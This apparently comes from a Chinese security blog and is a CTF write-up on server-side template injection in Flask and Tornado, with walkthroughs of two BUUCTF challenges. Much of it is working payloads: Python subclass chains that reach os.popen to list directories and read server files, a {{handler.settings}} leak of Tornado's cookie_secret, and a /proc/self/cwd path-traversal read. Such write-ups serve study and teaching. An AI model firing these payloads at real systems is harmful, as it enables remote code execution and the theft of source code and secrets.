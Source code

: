 ```yaml
---
title: 服务器模板注入 (SSTI)
date: '2022/1/23 23:15:01'
categories:
  - - web安全
    - inject
    - ssti
abbrlink: 1e38f0b9
description: ssti注入的流程和相关例题
tags:
---
```


## 服务器模板注入 (SSTI)

### 基本注入流程

```
''.__class__		显示这个东西的类
''.__class__.base__		找到这个的基类
''.__class__.__base__.__subclasses__()		看基类的子类
```

> 敏感子类
popen、sys、os

```
因为''.__class__.__base__.__subclasses__()返回的是一个列表，
所以直接''.__class__.__base__.__subclasses__()[425]查看的就是popen这个
```
> **注意：这里的425要根据```''.__class__.__base__.__subclasses__()```实际返回的数组，观察Popen的位置来决定**

到了这里就可以使用某些子类来进行操作了，下面使用[177]这个子类```<class 'warnings.catch_warnings'>```进行操作

比如说查看目录
```shell
''.__class__.__base__.__subclasses__()[177].__init__.__globals__["__builtins__"].eval('__import__("os").popen("ls").read()')
```
进一步查看目录下的文件，这里查看的是test目录下的文件
```shell
''.__class__.__base__.__subclasses__()[177].__init__.__globals__["__builtins__"].eval('__import__("os").popen("ls /test").read()')
```
然后读取需要的文件，这里是读取test目录下的flag.py文件
```shell
''.__class__.__base__.__subclasses__()[177].__init__.__globals__["__builtins__"].eval('__import__("os").popen("cat /test/flag.py").read()')
```

### 绕过限制

参考：[https://www.cnblogs.com/zaqzzz/p/10263396.html](https://www.cnblogs.com/zaqzzz/p/10263396.html)

### 通过模板注入获取tornado中的cookie

利用handler.settings对象
因此构造{{handler.settings}}

知识点
> (1)需要的cookie_secret在Application对象settings属性中

> (2)```self.application.settings```有一个别名```RequestHandler.settings```
而因为handler指向的是处理当前这个页面的RequestHandler对象，并且RequestHandler.settings是指向self.application.settings，因此构造的handler.settings指向RequestHandler.application.settings


参考来自：[https://blog.csdn.net/q20010619/article/details/107553119](https://blog.csdn.net/q20010619/article/details/107553119)

***
***

## 题目

### SSTI
> 这是一道来源于BUUCTF的N1BOOK的题目，[第三章 web进阶]SSTI

```shell
7*7
```
观察回显发现是flask模板注入

```shell
''.__class__.__base__.__subclasses__()
```
看看有什么子类可以利用
```shell
''.__class__.base__.__subclasses__()}
```

发现[177]这个子类是```<class 'warnings.catch_warnings'>```

利用它查看目录
```shell
''.__class__.__base__.__subclasses__()[177].__init__.__globals__["__builtins__"].eval('__import__("os").popen("ls").read()')
```
进一步查看app目录下的文件
```shell
''.__class__.__base__.__subclasses__()[177].__init__.__globals__["__builtins__"].eval('__import__("os").popen("ls /app").read()')
```
然后读取server.py文件
```shell
''.__class__.__base__.__subclasses__()[177].__init__.__globals__["__builtins__"].eval('__import__("os").popen("cat /app/server.py").read()')
```

题目有多种解法
参考来自：
[https://blog.csdn.net/CyhDl666/article/details/115004845](https://blog.csdn.net/CyhDl666/article/details/115004845)
[https://blog.csdn.net/qq_51558360/article/details/114493766](https://blog.csdn.net/qq_51558360/article/details/114493766)

### afr_3
> 这是一道来源于BUUCTF的N1BOOK的题目，[第一章 web入门]afr_3

开头是文件包含，经过一系列操作，
**根据```../../../../../proc/self/cmdline```得出的信息可以知道，当前正在运行 ```pythonserver.py```**

**在这里时需要想到，应该利用python的flask进行模板ssti注入，从而读取flag**

根据/proc/的特性，可以读取正在运行的```pythonserver.py```的源码
```?name=../../../../../proc/self/cwd/server.py```
> 原理是使用proc指定self代表当前进程，然后cwd指向运行的文件```pythonserver.py```

得到的信息里面有```flag.py```，但是直接访问显示权限不够
访问另一个的文件```key.py```得到
 ```shell
#!/usr/bin/python 
key = 'Drmhze6EPcv0fN_81Bj-nA'
 ```

后面待续




参考来自：
[https://www.cnblogs.com/murkuo/p/14905749.html](https://www.cnblogs.com/murkuo/p/14905749.html)